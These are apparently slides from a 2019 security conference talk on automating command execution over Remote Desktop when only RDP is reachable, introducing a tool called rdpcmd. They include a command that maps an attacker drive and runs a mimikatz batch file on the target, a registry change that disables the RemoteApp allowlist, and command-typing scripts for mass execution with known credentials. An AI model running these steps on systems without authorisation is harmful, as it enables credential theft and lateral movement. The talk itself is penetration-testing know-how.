


RDP automations
When RDP is only hope
Vlatko Kosturjak (@k0st), BerlinSides 0x7E3, 2nd of June, 2019
Agenda
- Introduction
- Elephants
- RDP
- Automation
- Tool
- Summary
- Questions and answers
45 minutes
About me
- Security Consultant
- Open source (security) developer
- Contributed to many existing...
- Authored own https://github.com/kost
- Finding and exploiting vulnerabilities
- Here and there
-

- References
RDP
- Short
- Remote Desktop Protocol
- Really Do Patch
- Desktop "Video"
- You get "video" representation
- no widget info (like X11)
RDP bluekeep
- Will not be about bluekeep
- PoC
- PoC DoS
- Metasploit aux scanner
- MSF pull request
- no widget info (like X11)
Original problem
-

- Article from SANS ISC Diary
Problem summary
- Have credentials to bunch of machines
- SMB/WMI/WINRM/PSREMOTING
- Does not work
- or filtered
- RDP open
- only hope?
Hmmm. There is RDP app to specify
$ xfreerdp | grep -i app
/app:|| or Remote application program
/app-name: Remote application name for user interface
/app-icon: Remote application icon for user interface
/app-cmd: Remote application command-line parameters
/app-file: File to open with remote application
/app-guid: Remote application GUID
Easy. Just specify app!
xfreerdp /u:Administrator /p:Password123 /drive:local,/home/digby/pillage /app:cmd.exe /app-cmd:"cmd.exe /k net use X: \\tsclient\local & X: & mimi.bat & logoff" /v:192.168.0.100
OOps. Does not work
- Connecting with error
[08:32:30:562] [2763:2767] [ERROR][com.freerdp.client.x11] - RAIL exec error: execResult=RAIL_EXEC_E_NOT_IN_ALLOWLIST NtError=0x15
Solution
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Terminal Server\TSAppAllowList
fDisabledAllowList (REG_DWORD)
1 = disable Allowed list
0 = enable Allowed list
Solution? Not really.
- Modify registry on target computer
- No other ports/services than RDP
- Only with RDP, but on 100s of machines?
- Any better way?
Why not autoit?
- Anti-virus vendors struggle with it
- Remember it is "video" protocol
- Autoit will not recognize guest "widgets"
- only MS RDP client widgets
Do it Rubber ducky style
Example Usage
run("cmdkey /generic:""" & $servername & """ /user:""" & $username & """ /pass:""" & $password & """")
run("mstsc /console /v:"& $servername)
[..]
; RDP will not receive Window key if RDP session is not maximized
$wstate=WinSetState ( "[CLASS:TscShellContainerClass]", "", @SW_MAXIMIZE )
Registry Prerequists
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Terminal Server Client]
"AuthenticationLevelOverride"=dword:00000000
[HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client]
"ShowShutdownDialog"=dword:00000000
rdpcmd
rdpcmd
rdpcmd 192.168.1.1 user password "ipconfig" 0
rdpcmd 192.168.1.1 user password "winrm quickconfig -quiet -force" 5000
How about Linux/BSD/Mac?
- Autoit is Windows based solution
- I need Linux solution
- xfreerdp
- remmina
- rdesktop
Example Usage
xdotool search --all --pid $PID --name $IP
xdotool windowactivate --sync $WID key 'Super+r' sleep 2 type '$CMD'
xdotool key --clearmodifiers "Return"
rdpcmd-ruby
sudo apt-get install xdotool remmina
gem install rdpcmd
remmina # just to generate global secret
rdpcmd --help # you'll find your way further
rdpcmd-ruby
rdpcmd -u user -p password -i 192.168.1.1 -c 'whoami' -x 3
rdpcmd -u user -p password -i 192.168.1.1 -e -c 'winrm quickconfig -quiet -force' -x 5
Future
- Other ways
- Interfacing xfreerdp lib directly
- OCR
- OpenSSH server ships with Windows
- New exposure
- New automations
Summary
- RDP automation
- Possible
- Limited
- Hardening old, introducing new
- Hardened windows, RDP only left
- OpenSSH server